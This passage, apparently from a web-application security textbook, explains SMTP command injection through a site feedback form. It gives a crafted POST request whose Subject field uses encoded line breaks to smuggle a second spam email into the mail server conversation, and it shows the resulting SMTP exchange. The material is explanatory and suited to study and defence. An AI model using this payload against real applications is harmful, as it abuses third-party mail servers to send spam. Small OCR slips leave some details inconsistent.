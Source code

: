 For example, consider an application that uses requests of the following form to submit the feedback:

```
POST feedback.php HTTP/1.1
Host: wahh-app.com
Content-Length: 56

From=daf@wahh-mail.com&Subject=Site+feedback&Message=foo
```

This causes the web application to perform an SMTP conversation with the following commands:

```
MAIL FROM: daf@wahh-mail.com
RCPT TO: feedback@wahh-app.com
DATA
From: daf@wahh-mail.com
To: feedback@wahh-app.com
Subject: Site feedback
foo
```

**NOTE: After the SMTP client issues the `DATA` command, it sends the contents of the e-mail message, comprising the message headers and body. Then it sends a single dot character on its own line. This tells the server that the message is complete, and the client can then issue further SMTP commands to send further messages.**

In this situation, you may be able to inject arbitrary SMTP commands into any of the e-mail fields you control. For example, you can attempt to inject into the Subject field as follows:

```
POST feedback.php HTTP/1.1
Host: wahh-app.com
Content-Length: 266

From=daf@wahh-mail.com&Subject=Site+feedback%0d%0afoo%0d%0a%2e%0d
%0aMAIL+FROM:+mail@wahh-viagra.com%0d%0aRCPT+TO:+john@wahh-mail
.com%0d%0aDATA%0d%0aFrom:+mail@wahh-viagra.com%0d%0aTo:+john@wahh-mail
.com%0d%0aSubject:+Cheap+V1AGR4%0d%0aBlah%0d%0a%2e%0d%0a&Message=foo
```

If the application is vulnerable, this results in the following SMTP conversation, which generates two different e-mail messges. The second is entirely within your control:

```
MAIL FROM: daf@wahh-mail.com
RCPT TO: feedback@wahh-app.com
DATA
From: daf@wahh-mail.com
To: feedback@wahh-app.com
Subject: Site+feedback
foo
.
MAIL FROM: mail@wahh-viagra.com
RCPT TO: john@wahh-mail.com
DATA
From: mail@wahh-mail.com
To: john@wahh-mail.com
Subject: Cheap V1AGR7
Blah
.
foo
.
```
